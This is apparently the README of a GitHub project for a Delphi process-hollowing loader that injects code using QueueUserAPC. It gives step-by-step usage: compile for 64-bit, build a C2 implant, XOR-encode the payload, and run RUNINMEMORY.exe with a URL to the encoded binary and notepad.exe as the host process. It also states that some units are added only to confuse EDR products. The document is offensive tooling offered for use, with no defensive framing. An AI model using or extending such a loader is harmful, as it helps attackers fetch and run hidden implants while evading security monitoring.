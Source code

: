 # delphiprocesshollowing
DelphiProcessHollowing with QueueUserAPC

compile with Embarcadero Community 12

Some Units are added only to confuse EDRs

1. compile it (64bit!)
2. create the BINARY x64 implant with your C2
3. XOR your .BIN payload with the "a" char (or modify pascal source to change it!)
4. run RUNINMEMORY.exe url_to_XORED_binary c:\windows\system32\notepad.exe

normally used to run C2 implants
